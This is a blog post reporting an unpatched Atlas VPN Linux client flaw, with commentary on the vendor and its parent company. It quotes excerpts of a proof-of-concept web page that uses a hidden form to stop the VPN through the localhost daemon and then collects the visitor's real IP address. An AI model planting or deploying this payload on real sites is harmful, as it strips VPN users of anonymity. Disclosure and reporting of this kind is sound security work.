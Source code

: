 ```yaml
---
title: Unpached AtlasVPN Exploit - Proof of Concept
date: 2023-09-03 12:00:00 +0800
categories: [Technology, VPN]
tags: [atlas vpn, privacy, exploit]     # TAG names should always be lowercase
toc: true
math: true
---
```


# Atlas VPN 
VPNs have seen a massive increase in usage in the last few years,[^footnote1] with a popular provider 'Atlas VPN' reportedly gaining more than six million users before being bought out by Nord Security, owners of NordVPN.[^footnote2] NordVPN has been extensively criticized for false advertising,[^footnote3] as well as its response to a data breach in 2019 - in which private keys and root access were compromised - which the company took more than 18 months to reveal.[^footnote4]

It appears their inability to secure their services has occurred again.  

# The Exploit
Two days ago, a throwaway account named ‘Educational-Map-8145’ (I’ll call them ‘EM8’) posted on the Cybersecurity subreddit what they claimed to be an unpached exploit for the AltasVPN on Linux.  After execution this code could disconnect the “AtlasVPN linux client and leak the users IP address”.[^footnote5] 

According to EM8, the AtlasVPN runs both a client and a daemon, and the client connects via “API on localhost on port 8076”. As any program can access localhost -  including websites - the malicious javascript could be run in any website to cause the VPN to disconnect, exposing the real IP of the user, which can be collected (included in the PoC script). Fortunately, EM8 firmly stated that the code was “not intended for illegal purposes”, so AltasVPN users should be fine.

# Breakdown of Script
Step 1: Send a command to stop the VPN

```
</code></pre>
   <iframe id="hiddenFrame" name="hiddenFrame" style="display: none;"></iframe>
  <form id="stopForm" action="http://127.0.0.1:8076/connection/stop" method="post" target="hiddenFrame">
    <button type="submit" style="display: none"></button>
  </form>
   <script>
    window._currentIP = false;
     // Run main exploit code
    window.addEventListener('load', function () {
      addIPToLog();
      setTimeout(triggerFormSubmission, 1000);
      setTimeout(addIPToLog, 3000);
    });
     // Blind CORS request to atlasvpnd to disconnect the VPN
    function triggerFormSubmission() {
      var logDiv = document.getElementById('log');
      logDiv.innerHTML += "[-] Sending disconnect request to atlasvpnd...\n";
      document.getElementById('stopForm').submit();
```

Step 2: Grab Real IP address
   
```
     // Gets IP from ipfy API (this, of course, could be your server)
    function addIPToLog() {
      var logDiv = document.getElementById('log');
      var xhr = new XMLHttpRequest();
       xhr.open('GET', 'https://api.ipify.org?format=json', true);
       xhr.onload = function () {
        var ipAddress = window._currentIP;
        if (xhr.status === 200) {
          var response = JSON.parse(xhr.responseText);
          ipAddress = response.ip;
           logDiv.innerHTML += '[?] Current IP:' + ipAddress + "\n";
```

> The Reddit poster has the code in [full](https://www.reddit.com/r/cybersecurity/comments/167f16e/atlasvpn_linux_client_103_remote_disconnect/).
{: .prompt-info }

# Confirmation 

| Click Box Below for PoC Video |
| --- | 
| ![ - - - - - - - Proof of Concept - Click here to View - - - - - - - ](https://media.infosec.exchange/infosecmediaeu/cache/media_attachments/files/110/997/661/288/787/693/original/a209c146534a35a3.mp4) | 

In a post from Chris Partridge on Mastodon, he called the “hilarious[ly]” bad security “utter garbage”.[^footnote7]  Also included with the exposé was a video which appears to demonstrate the Proof of Concept for the dropped connection, as well as the explanation that since it makes "simple request" this allows it to slip past Cross-Origin Resource Sharing ([CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)). 


![CORS vs Exploit](https://media.infosec.exchange/infosecmediaeu/cache/media_attachments/files/110/998/159/997/223/316/original/88d1a449d7380696.png)


# AtlasVPN Response (or Lack Thereof)
In the original reddit post, EM8 claims they tried to contact AtlasVPN about the issue but received “no answer” and saw “[no] signs of a bug bounty programme”. In fact, the response was so lacking and the fact that the security “suck[ed] so massively” they found it “hard to believe this is a bug rather than a backdoor”. 

Yikes.

Hopefully Atlas will address the exploit with the same speed as NordVPN. So only 18 months to go.

> I have not verified the PoC myself. Don't use it maliciously. 
{: .prompt-warning }

[^footnote1]: [https://www.thevpnexperts.com/research/why-vpn-usage-is-on-the-surge/](https://www.thevpnexperts.com/research/why-vpn-usage-is-on-the-surge/)
[^footnote2]: [https://www.comparitech.com/vpn/reviews/atlas-vpn-review/](https://www.comparitech.com/vpn/reviews/atlas-vpn-review/)
[^footnote3]: [https://www.pcmag.com/news/nordvpn-ad-banned-for-exaggerating-threat-of-public-wi-fi](https://www.pcmag.com/news/nordvpn-ad-banned-for-exaggerating-threat-of-public-wi-fi)
[^footnote4]: [https://arstechnica.com/information-technology/2019/10/hackers-steal-secret-crypto-keys-for-nordvpn-heres-what-we-know-so-far/](https://arstechnica.com/information-technology/2019/10/hackers-steal-secret-crypto-keys-for-nordvpn-heres-what-we-know-so-far/)
[^footnote5]: [https://www.reddit.com/r/cybersecurity/comments/167f16e/atlasvpn_linux_client_103_remote_disconnect/](https://www.reddit.com/r/cybersecurity/comments/167f16e/atlasvpn_linux_client_103_remote_disconnect/)
[^footnote7]: [https://cybersecurity.theater/@tweedge/110997661135498890](https://cybersecurity.theater/@tweedge/110997661135498890)
